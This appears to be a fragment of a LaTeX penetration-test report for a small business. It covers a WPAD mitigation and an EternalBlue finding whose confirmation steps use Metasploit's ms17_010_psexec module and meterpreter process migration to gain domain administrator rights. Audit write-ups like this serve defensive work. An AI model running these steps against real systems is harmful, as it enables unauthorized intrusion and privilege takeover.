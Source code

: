 \documentclass[notitlepage]{article}
\begin{document}
		\subsubsection{Mitigation or Resolution Strategy}
		\indent Disable Windows \textbf{Web Proxy Auto Discovery Protocol (WPAD)}. For the current size of Art's Tailors, configuring employee computers to know the proxy server for access out side the system is possible.\\
			
		\subsection{8. Finding: \emph{Eternal Blue CVE-2017-0144}}
	
	\subsubsection{Severity Rating}
	\indent The exploit allows users to gain Domain Admin credentials on the the server. 
	\textbackslash cvss(N, H, N, N, U, H, H, H, 8.1)\\
	\cvss(N, H, N, N, U, H, H, H, 8.1) \\
	
	\subsubsection{Vulnerability Description}
	\indent This a remote code execution vulnerability within the Microsoft Server Message Block.  The vulnerability allows attackers to run code on the compromised system.  \\
	
	\subsubsection{Confirmation method}
	To confirm if your system is vulnerability, \\
	. To confirm exploit, you need Kali linux and metasploit.\\
	. Start metaspolit and metaspolit database. \textbf{msfconsole -1} and \textbf{msfdb -init} to start them.\\
	. In metasploit, type \textbf{search eternal blue.}  \\
	. Select "exploit//windows//smb//ms17\_010\_psexece Windows Code Execution" \\
	. Set the RHOST to 10.70.184.89. \\
	. Run exploit by typing \textbf{exploit.}\\
	. The exploit should run and now and give you access to the system. \\
	. To gain the domain admin credentials. Run ps to have all processes listed. Look up 'ServerManager.exe' with the "ARTSTAILOR\\Administrator" and record the PID.\\
	. Use meterpreter command \textbf{migrate (PID)}.\\
	. Type \textbf{getuid} and you will see that you now have administrative privileges.\\ 
	
\end{document}
